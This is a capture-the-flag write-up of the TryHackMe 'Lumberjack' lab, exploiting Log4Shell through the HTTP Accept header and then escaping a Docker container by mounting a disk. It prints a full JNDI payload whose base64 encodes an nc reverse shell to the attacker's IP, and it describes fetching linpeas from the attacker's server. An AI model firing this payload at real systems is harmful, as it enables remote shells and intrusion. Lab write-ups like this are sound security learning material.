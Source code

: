 ﻿Hello everyone this is my first ctf writeup. Name of the box is Lumberjack from tryhackme, it’s based on Log4j (CVE-2021-44228) it is a medium level challenge.

Created by : SilverStr

Let’s start with basic recons

Recon:

nmap -sC -sV -Pn 10.10.120.161

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.001.png)

Results from nmap showed 2 open ports

In ssh there is nothing to see so went to check up the http port 80.

\--------------------------------------------------------------------------------------------------------------------------------------

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.002.png)

Nothing to see in this port. After that I used burp to capture the request of this site.

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.003.png) 

They give a resource to refer the log4j vulnerability. 

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.004.png)

**References used to make this room:**

- [Lunasec.io blog post on Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/)
- [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)
- [CVE-2021-44228 – Log4j 2 Vulnerability Analysis](https://www.randori.com/blog/cve-2021-44228/)
- Malicious LDAP servers are fun. (Come on.... work for it a bit)

I send the request to repeater and I used basic payload of log4j to manipulate the request via the user agent but I didn’t get any proper response. 

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.005.png)

I saw the accept “request header” in burp .so, I decided to send the payload via the accept header.

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.006.png)

I got the proper response via this accept header.

Let’s try to get shell using JNDIexploit...

Java -jar JNDIExlpoit-1.2-SNAPSHOT.jar -u

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.007.png)

I used this payload for the reverse shell via nc.

Let’s set the exploit:

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.008.png)

Reverse shell payload to base 64.

${jndi:ldap://10.8.19.239:1389/Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjguMTkuMjM5IDQ0NDQgPi90bXAvZg==}


![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.009.png)

I send the payload via the accept header. 

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.010.png)

Finally, I got the shell. Let’s find the 1st flag;

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.011.png)

It’s a docker environment... I go to the opt directory for flag’s 

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.012.png)![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.013.png)![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.014.png)



I got the 1st flag …

cat .flag1 

Let’s check for 2nd flag, after long time I decide to use linpease to know vulnerabilities.

I will set the python server to get the linpeas from my machine to that vuln machine.

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.015.png)

Let’s give the execute permission to the linpeas chmod +x linpeas.sh and run the linpeas

I saw the suid unmount in the bin directory..

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.016.png)

Let’s see what is in dev directory, I found some directories which is unmounted on disk.

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.017.png)  

Make the empty directory in the tmp directory ‘123’ to mount it. 

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.018.png)

After that I will go to the root directory which is on mounted folder ‘123’

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.019.png)






On the root directory I saw the root.txt, but here I got depressed. 

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.020.png) 

After few moments I saw the directory which is ‘…’ 

cd …;ls -la

cat .\_fLaG2

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.021.png)![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.022.png)

At last, I found the final flag. A wonderful medium level ctf to know what is log4j and how its working





`                          `……….….…………….Happy learning & Hunting ………………………




